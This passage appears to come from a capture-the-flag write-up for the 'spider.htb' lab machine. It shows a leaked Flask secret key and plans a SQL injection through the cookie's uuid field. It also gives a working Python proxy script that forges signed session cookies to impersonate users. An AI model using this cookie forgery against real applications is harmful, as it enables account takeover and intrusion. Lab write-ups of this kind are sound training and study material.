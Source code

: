    'SECRET_KEY': 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942'



This key is what is used to sign the cookie for the application to be
whatever user I want.

The challenge is, at this point, I don't know a username or user UUID to
try to impersonate.

### Access Admin Panel

#### Strategy

I tested for SQL injection in the registration and login pages without
any success. Now that I can craft a cookie, I'll think about what could
happen with that. When I submit a cookie to the site, it will first
validate it was signed with the key, then extract the uuid and use that
to get a username from the database, for example to display in the
logout button or to check when visiting the admin page. There could be
an injection point there if that query was given less protection because
only someone with the key could craft that payload.

#### Proxy

To interact with the site, I'll build a simple Flask server that can
proxy requests for me. [This
post](https://stackoverflow.com/questions/42283778/generating-signed-session-cookie-value-used-in-flask)
shows how to get access to the Flask signing bits. My server will listen
for a request, and pull a uuid and a optional URL from the GET
parameters, and then craft a request with that UUID in the cookie:



    #!/usr/bin/env python3

    import requests
    from flask import Flask, request
    from flask.sessions import SecureCookieSessionInterface

    app = Flask(__name__)
    app.secret_key = "Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942"
    session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)


    @app.route('/')
    def main():
        uuid = request.args['uuid']
        if 'url' in request.args:
            url = request.args['url']
        else:
            url = 'http://spider.htb'
        cookie_data = {"uuid": uuid, "username": "", "cart_items": []}
        cookie = {"session": session_serializer.dumps(cookie_data)}
        resp = requests.get(url, cookies=cookie)
        return resp.text
